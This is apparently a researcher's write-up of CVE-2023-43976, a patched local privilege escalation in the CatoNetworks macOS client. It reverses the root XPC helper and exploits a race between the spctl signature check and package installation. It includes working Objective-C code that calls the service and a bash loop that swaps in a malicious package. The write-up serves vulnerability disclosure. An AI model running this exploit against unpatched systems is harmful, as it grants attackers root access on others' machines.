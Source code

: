 ```yaml
---
title: CVE-2023-43976 - CatoNetworks macOS LPE
description: Exploiting notorization race conditions
date: 2023-10-02T09:07:48.381687+02:00
toc: false
tags:
    - reverse-engineering
    - frida
    - lldb
    - xpc
    - macos
refs:
    - https://www.catonetworks.com
    - https://github.com/NSEcho/vos/tree/main/CatoNetworks
draft: false
---
```


# Introduction

A couple of months ago, I have found Local Privilege Escalation vulnerability inside of CatoNetworks macOS application which is fixed in the version
5.4.0. We will see how to exploit the simple race condition in order to achieve escalation of privileges to _root_ user.

# Analysis

After examining `~/Library/LaunchDaemons/com.catonetworks.mac.CatoClient.helper.plist` we can see that the Mach service name is `com.catonetworks.mac.client.daemon` and 
the binary it runs is `/Library/Application Support/CatoNetworks/com.catonetworks.mac.CatoClient.helper`. We will take a note of the Mach service name because we will need 
it to communicate with the XPC service.

![CatoNetworks LaunchDaemon](../images/cato_ldaemon.png)

After we have obtained some limited information, we need to load the main binary in _Hopper_ to analyze what is happening and to check whether there are any vulnerabilities.

Searching for `listener:shouldAcceptNewConnection` revealed that the exported protocol is `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_`.

![Accepting new connection](../images/cato_listener.png)

Running class dump showed that this protocol contains a single method `- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;`.

![Exported protocol](../images/cato_protocol.png)

Based on the name, we can conclude that we need to provide the path to the `.pkg` file and we can check whether we have succeeded or not based on the reply block.

If we now search for implementation of this method, we can see that it calls function `sub_100002b7c`.

![Install package implementation](../images/cato_install_package.pkg)

![Main function](../images/cato_main_func.png)

Analyzing the `sub_100002b7c` function, we can see that it checks whether `sub_1000027b0` returned successfully, followed by creation of `NSTask` (to run programs).

![Creating NSTask](../images/cato_nstask.png)

Near the end of the function, there is another check which confirms whether probably the output of the run NSTask contains `\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`.

![Checking for string](../images/cato_string_check.png)

We will now create a minimal objc code to communicate with the service, and we will examine the arguments passed to `-[NSTask setLaunchPath:]` and `-[NSTask setArguments:]` methods with debugger (lldb).

The objc code:

```objc
// gcc cato.m -o cato -framework Foundation
#import <Foundation/Foundation.h>

static NSString * serviceName = @"com.catonetworks.mac.client.daemon";

@protocol _TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_
- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;
@end

int main(int argc, const char **argv) {
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:4096];

    [conn setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_)]];
    [conn resume];

    id obj = [conn remoteObjectProxyWithErrorHandler:^(NSError * error) {
           NSLog(@"Error: %@", error);
    }];

    NSString * pkgPath = [NSString stringWithCString:argv[1] encoding:NSASCIIStringEncoding];

    [obj installPackageAtPath:pkgPath withCompletion:^(BOOL succeeded) {
        if (succeeded) {
            NSLog(@"Exploit succeeded; check /tmp/himynameis");
        } else {
            NSLog(@"Exploit failed; please try again");
        }
    }];

    dispatch_main();
    return 0;
}
```

While inside of `lldb` we want to set the breakpoints and examine the arguments. Compiling the above code and running it as `./cato nsecho` gives the following 
inside of lldb.

![LLDB arguments](../images/cato_lldb.png)

From the lldb output we can conclude that the service is calling `/usr/sbin/spctl` with the arguments `-a -vvv -t install PACKAGE_PATH_WE_PROVIDED`. `spctl` is used to check notorization on the pkg files.

Running the exact command on the legitimate CatoNetworks package returns the output which contains the string we found earlier (`\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`).

![spctl on Cato](../images/cato_spctl.png)

So far we now the following:

* Services uses `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_` protocol
* We need to call `installPackageAtPath:pkgPath withCompletion:`
* Service checks whether the app is notorized by the Cato using `spctl`
* Gets installed if the previous check was successful

It seems that there is no way to exploit it, but after running spctl, I have noticed that it doesn't return immediately, it takes a couple of milliseconds, meaning that we have 
potential race condition here.

![spctl run](../images/cato_spct_lag.png)

To exploit this, we need to do the following:

* Run the exploit, providing the path to the legitimate Cato pkg file
* Wait a bit
* Replace the legitimate Cato pkg file with the malicious one
* Local Privilege Escalation

I will just add a simple command in the `postinstall` scripts which writes the current user to `/tmp/himynameis` file.

![postinstall script](../images/cato_postinstall.png)

_The exploit bash script:_

```bash
#!/bin/bash

ORIGINAL=/Users/demon/Downloads/CatoClient-2.pkg
FAKE=/Users/demon/Downloads/exploit.pkg
TEMP=/tmp/expl.pkg

while [ true ]
do
    cp "${ORIGINAL}" "${TEMP}"

    ./cato "${TEMP}" &
    sleep 0.1
    cp "${FAKE}" "${TEMP}"
    sleep 4
    stat /tmp/himynameis > /dev/null 2>&1 && exit 0
done
```

![Running the exploit](../images/cato_exploit.png)

